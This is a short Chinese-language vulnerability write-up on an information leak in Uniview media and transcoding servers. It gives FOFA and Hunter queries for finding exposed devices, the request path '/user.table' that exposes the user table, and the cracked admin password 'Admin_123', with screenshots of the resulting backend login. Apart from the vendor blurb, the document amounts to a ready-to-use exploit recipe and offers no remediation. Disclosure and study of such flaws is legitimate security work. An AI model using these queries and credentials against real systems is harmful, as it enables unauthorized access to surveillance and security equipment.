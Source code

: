 # 浙江宇视媒体服务器-user-信息泄露漏洞

### 一、漏洞描述
浙江宇视科技有限公司创立于2011年，是一家全球公共安全和智能交通的解决方案提供商。

浙江宇视科技有限公司转码服务器配置管理系统存在密码漏洞，攻击者可利用该漏洞登录后台。

### 二、影响版本
宇视转码服务器

### 三、资产测绘
fofa: body="images/a_fill_login_right_a.gif" 

hunter: app.name=="Uniview 宇视媒体服务器"  

界面

![1714987281244-1d5f2027-bfb1-42de-950f-d29610bbd967.png](./img/4oh0GhEEmgLWqzD7/1714987281244-1d5f2027-bfb1-42de-950f-d29610bbd967-091627.png)

### 四、漏洞复现
```plain
/user.table
```

![1714987215387-1c76dcb5-ff4f-4283-bad4-eae48ed6b024.png](./img/4oh0GhEEmgLWqzD7/1714987215387-1c76dcb5-ff4f-4283-bad4-eae48ed6b024-201161.png)使用MD5解密，密码为Admin_123

![1714987514450-f760a7a9-25d7-42a5-b3eb-289504a3bd7b.png](./img/4oh0GhEEmgLWqzD7/1714987514450-f760a7a9-25d7-42a5-b3eb-289504a3bd7b-684386.png)后台界面

![1714987065893-3b381dd0-d9b8-41ce-9ed3-a1f75855f8ce.png](./img/4oh0GhEEmgLWqzD7/1714987065893-3b381dd0-d9b8-41ce-9ed3-a1f75855f8ce-848576.png)



> 更新: 2024-06-17 09:18:59  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fmgc1li99c5o7pm4>